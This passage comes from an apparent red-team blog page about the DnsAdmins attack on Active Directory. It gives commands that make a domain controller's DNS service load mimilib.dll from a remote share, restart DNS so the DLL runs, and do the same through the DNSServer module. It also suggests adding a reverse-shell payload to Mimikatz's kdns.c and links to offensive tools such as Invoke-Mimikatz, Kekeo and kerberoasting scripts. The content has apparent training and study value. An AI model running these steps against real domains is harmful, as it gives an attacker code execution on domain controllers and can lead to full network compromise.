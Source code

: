 ```powershell
dnscmd dcorp-dc /config /serverlevelplugindll \\172.16.50.100\d11\mimilib.dll
```

### <span style="color:#F1C232">2. Restart the DNS service</span>

```powershell
PS> cmd
sc \\dcorp-dc stop dns
sc \\dcorp-dc start dns
```

### <span style="color:#F1C232">3. Using DNSServer module</span>

```powershell
$dnsettings = Get-DnsServerSetting -ComputerName dcorp-dc -Verbose -All
$dnsettings.ServerLevelPluginDll = "\\172.16.50.100\d11\mimilib.d11"
Set-DnsServerSetting -Inputobject $dnsettings -ComputerName dcorp-dc -Verbose
```

## <span style="color:lightgreen">Custom Exploit for Rev shell</span>
We can edit the source code of **kdns.c** from *mikikatz* source code and add our own malicious payload using the *system()* function and get a reverse shell back to us.

# <span style="color:lightblue">Tools Used</span>

1. Invoke-Mimikatz download from here : [Invoke-Mimikatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)
2. PowerView download from here : [powerview.ps1](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1)
3. PowerView Dev download from here : [powerview.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
4. Invoke-UserHunter download from here : [Invoke-UserHunter.ps1](https://github.com/darkoperator/Veil-PowerView/blob/master/PowerView/functions/Invoke-UserHunter.ps1
)
5. keko download from here : [keko](https://github.com/gentilkiwi/kekeo/releases/tag/2.2.0-20211214)
6. DnsCMD download from here : [DnsCMD](https://lolbas-project.github.io/lolbas/Binaries/Dnscmd/)
7. tgsrepcrack.py download from here : [tgsrepcrack.py](https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py)
8. ASREPRoast download from here : [ASREPRoast.ps1](https://github.com/HarmJ0y/ASREPRoast/blob/master/ASREPRoast.ps1)

If you find my articles interesting, you can buy me a coffee 

---

**Support SecureYourGear**: If you found this helpful, check out our other [Active Directory attack techniques](https://www.secureyourgear.com/categories/red-teaming/) and [Windows exploitation guides](https://www.secureyourgear.com/categories/hackthebox/).
